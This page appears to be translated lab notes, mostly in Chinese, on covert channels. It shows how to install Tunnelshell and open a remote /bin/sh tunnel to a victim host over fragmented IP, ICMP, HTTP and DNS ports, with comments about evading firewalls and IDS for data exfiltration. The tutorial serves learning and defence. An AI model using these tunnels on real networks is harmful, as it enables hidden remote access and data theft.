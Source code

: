 ## Covert Channel: The Hidden Network

### What is Covert channel  [^1]

- #### Type of covert channel

  - **Storage covert Channel** [^2]

  - **Timing Covert channels** [^3]

### Covert channel attack using tunnelshell [^4]

- #### What is Tunnelshell [^5]

  - **Requirement**

  - Server (Kali Linux)

  - Client (Ubuntu18.04)

  - Tool for Covert Channel (Tunnelshell) which you can download from [**here**](https://packetstormsecurity.com/search/files/?q=Tunnelshell)

  - ```bash
    # 在两个端点上安装tunnelshell
    tar xvfz tunnelshell_2.3.tgz
    make
    # 打开服务器的通信通道（Attacker）,默认情况下，它会发送片段数据包，该数据包在目的地重新组合以逃避防火墙和IDS
    sudo ./tunneld (Ubuntu)
    # 现在要与tunnelshell连接，我们需要在服务器（攻击者的机器）上执行以下命令，该命令将建立用于数据泄露的隐蔽通道
    # 语法：./ tunnel -i <session id（0-65535）> -d <发送数据包的延迟> -s <数据包大小> -t <隧道类型> -o <协议> -p <端口> -m <ICMP query> -a <ppp interface> <受害者的IP>
    ./tunnel -t frag 10.10.10.2
    # frag：使用IPv4分片数据包封装数据。当某些路由器和防火墙（如Cisco路由器和默认Linux安装）收到第四层没有标头的碎片数据包时，即使它们有拒绝它的规则，它们也允许通过它
    ```

    

- #### Covert ICMP Channel

  - Client: `sudo ./tunneld -t icmp -m echo-reply，echo`
  - Sever: `./tunnel -t icmp -m echo-reply,echo 10.10.10.2`

- #### Covert HTTP Channel [^6]

  - Client: `sudo  ./tunneld -t tcp -p 80,2000`
  - Server: `./tunnel -t tcp -p 80,2000 10.10.10.2`

- #### Covert DNS Channel [^7]

  - Client: `sudo ./tunneld -t udp -p 53,2000`
  - Server: `./tunnel -t udp -p 53,2000 10.10.10.2`

### Conclusion [^8]

[原文](https://www.hackingarticles.in/covert-channel-the-hidden-network/)

---

[^1]: 隐蔽一词意味着“隐藏或不可检测”，而频道是“通信模式”，因此隐蔽频道表示不可检测的通信网络。这使得管理员或用户通过秘密信道几乎检测不到传输。了解加密通信和隐蔽通信之间的区别非常重要。在隐蔽通信中，数据流由未授权方进行乱码和持久。然而，加密通信并不掩盖通过加密在两个端点之间传输的数据进行通信的事实

[^2]: 通过修改“存储位置”进行通信，这将允许一个进程直接或间接写入存储位置，并由另一个进程直接或间接读取它

[^3]: 执行影响接收器“观察到的实际响应时间”的操作。*注意：众所周知的Spectre和Meltdown使用系统的页面缓存作为其用于exfiltrating数据的隐蔽通道。**Specter和Meltdown攻击的工作原理是欺骗你的计算机缓存特权内存，错误的推测执行，缺乏检查无序执行的权限，以及页面缓存的强大功能。一旦访问了特权存储器，处理器就会缓存信息，并且处理器能够从缓存中检索它，无论其是否具有特权信息。**从[**这里**](https://medium.com/@danielabloom/covert-channels-demystified-4b1f406a76e3)阅读完整的文章。

[^4]: 几乎可以使用任何协议来建立隐蔽通道。绝大多数隐蔽频道研究都基于第3层（网络）和第4层（传输）协议，如ICMP，IP和TCP。还经常使用诸如HTTP和DNS的第7层（应用）协议。这种机制用于在不提醒网络防火墙和IDS的情况下传送信息，而且netstat无法检测到
[^5]: Tunnelshell是一个用C编写的程序，适用于Linux用户，可以使用客户端 - 服务器范例。服务器打开客户端可以通过虚拟隧道访问的/ bin / sh。它适用于多种协议，包括TCP，UDP，ICMP和RawIP，都可以使用。此外，数据包可能被分段以逃避防火墙和IDS
[^6]: 它在不使用三向握手的情况下建立虚拟TCP连接。它不绑定任何端口，因此您可以使用另一个进程已经在使用的端口
[^7]: 要建立DNS隐蔽通道，我们需要在两台端点机器上运行UDP隧道模式
[^8]: 隐蔽通道在数据泄露时不会发送加密数据包，因此，它很容易嗅探，网络管理员可以轻松进行数据丢失和风险管理